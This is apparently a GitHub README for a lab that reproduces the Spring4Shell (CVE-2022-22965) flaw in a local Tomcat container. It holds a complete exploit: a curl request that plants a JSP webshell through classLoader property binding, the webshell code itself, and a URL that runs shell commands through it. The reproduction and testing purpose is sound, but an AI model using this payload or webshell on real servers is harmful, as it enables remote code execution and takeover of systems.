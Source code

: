 # Replicate spring shell 0-day vulnerability
- In a spring mvc WAR application running on Tomcat.
- The issue is reproducible in a Java 11 compiled WAR running in tomcat 8
- The issue is NOT reproducible in a Java 8 compiled WAR running in tomcat 8
  - Switch the properties in pom.xml to use Java 8 and spring 3.2.9
  - Switch Dockerfile base image to  tomcat:8-jdk8-corretto


## Replicate vulnerability
1. Run command to:
   - Package a war file
   - Build a tomcat 8 corretto 11 image
   - Run a container from the image        
 `mvn clean package && docker build . -t springshell && docker run --name springshell --rm -p 8080:8080 springshell`
2. Run curl command attempts to create a jsp file in the tomcat webapps/ROOT folder. The jsp name is springshell.jsp
   1. If the jsp is not created, there is no vulnerability
```
curl --request POST \
  --url http://localhost:8080/springshell/zeroday \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --header 'c: Runtime' \
  --header 'prefix: <%' \
  --header 'suffix: %>//' \
  --data 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di' \
  --data class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp \
  --data class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT \
  --data class.module.classLoader.resources.context.parent.pipeline.first.prefix=springshell \
  --data class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
3. Review jsp content:
`docker exec -it springshell bash -c "cd webapps/ROOT;cat springshell.jsp"` will display
`<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %>//`
__This mean the application is compromised__


4. Exploitation: Hit this url in the browser and update the shell cmd (_cmd_ query param) to print the result of the command
`http://localhost:8080/springshell.jsp?cmd=pwd`
  - If there is no response or a 404, _the application is not compromised_
  - If the output is the response of a shell command execution, _the application is compromised_. Refer remediation steps in the references below

5. Switch java and spring versions
    - Switch the properties in pom.xml to use Java 8 and spring 3.2.9
    - Switch Dockerfile base image to __tomcat:8-jdk8-corretto__
    - Repeat above steps and you will see that the service is not compromised
    

## Reference
- https://tanzu.vmware.com/security/cve-2022-22965
- https://blog.sonatype.com/new-0-day-spring-framework-vulnerability-confirmed
- https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/